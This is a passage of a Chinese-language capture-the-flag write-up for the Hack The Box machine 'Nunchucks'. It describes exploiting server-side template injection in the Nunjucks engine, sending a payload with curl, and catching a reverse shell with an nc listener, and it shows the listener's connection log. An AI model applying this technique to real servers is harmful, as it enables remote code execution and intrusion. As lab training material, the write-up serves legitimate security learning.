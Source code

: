 模板引擎 ExpressJS

有一个模板引擎叫做 Nunjucks，这很可疑，因为它几乎和这个盒子同名。接下来，我们在 Github repo [这里](https://github.com/mozilla/nunjucks)结束。搜索“nunjucks ssti”会找到[这个](https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/out-of-band-code-execution-via-ssti-nodejs-nunjucks/)，然后到[这个](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)。这最后一篇文章解释了一个沙盒爆发，通过使用所描述的有效负载可以很容易地跟随它:

![](img/d83298ec8d6f79a05adc88d814032a52.png)

ssti 的有效载荷

我们只需要在单引号和双引号前面加一个反斜杠来进行转义，然后使用 curl 来传递:

![](img/c380d238d6186499fde3e16c986c454d.png)

使用 curl 将有效负载传送到网站

# 反向外壳

我使用 sed 整理了输出，使其更具可读性。有了这个工作，让我们尝试一个相反的外壳:

```
┌──(root💀kali)-[~/htb/nunchucks]
└─# curl -s -k -X POST -H $'Content-Type: application/json' --data-binary $'{\"email\":\"\"\x0d\x0a}' 'https://store.nunchucks.htb/api/submit'
```

切换到一个等待的 nc 监听器来查看我们的连接:

```
┌──(root💀kali)-[~/htb/nunchucks]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.122] 60976
```

首先，让我们将 shell 升级到更有用的版本:
